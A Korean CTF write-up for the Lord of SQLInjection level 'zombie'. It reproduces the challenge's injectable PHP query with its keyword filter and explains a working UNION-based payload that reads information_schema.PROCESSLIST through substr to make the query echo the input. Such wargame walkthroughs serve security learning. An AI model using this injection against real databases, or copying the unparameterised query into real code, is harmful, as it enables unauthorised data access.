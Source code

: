 ```yaml
---
title : "LOS Lv.31 zombie (풀이 봄)"
excerpt : "Information_schema processlist"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```



## zombie
```php
query : select pw from prob_zombie where pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

## Solution
```
이것도 역시 테이블 안에 아무 값도 없음.

ouroboros처럼 해줘야 하는데 replace에서 ace가 필터링되어있음.

답지를 보니.. information_schema에 processlist가 있음.
이를 이용하여 풀 수 있음.
```
여기 무조건 확인 : <a href="https://blog.limelee.xyz/entry/LOS-zombie?category=711778" target="_blank">https://blog.limelee.xyz/entry/LOS-zombie?category=711778</a>  

로컬 환경에서 테스트를 하였고 내가 입력한 부분은 {}로 표시.

```
select id from test.rubiya where id='{' union SELECT info FROM information_schema.PROCESSLIST #}
```

이렇게 입력하면 결과는 다음처럼 나옴.

```
id
select id from test.rubiya where id='' union SELECT info FROM information_schema.PROCESSLIST LIMIT 0, 25
```

문제의 클리어 조건은 **입력값과 비밀번호 값이 동일**해야 한다는 것.  
  
즉, 우리는 우리가 입력한 ``' union SELECT info FROM information_schema.PROCESSLIST #``  
  
이 부분만 출력되도록 해줘야 하므로 substr함수를 이용할 꺼임.  
  
그럼 substr함수가 추가되므로 우리가 입력할 값은 다음과 같음.  

```
' union SELECT substr(info,??,??) FROM information_schema.PROCESSLIST #
```

```
select id from test.rubiya where id=' -> 길이는 37

' union SELECT substr(info,38,??) FROM information_schema.PROCESSLIST # -> 길이는 71
```

따라서 입력 값은 다음과 같음.
```
?pw=' union SELECT substr(info,38,71) FROM information_schema.PROCESSLIST %23
```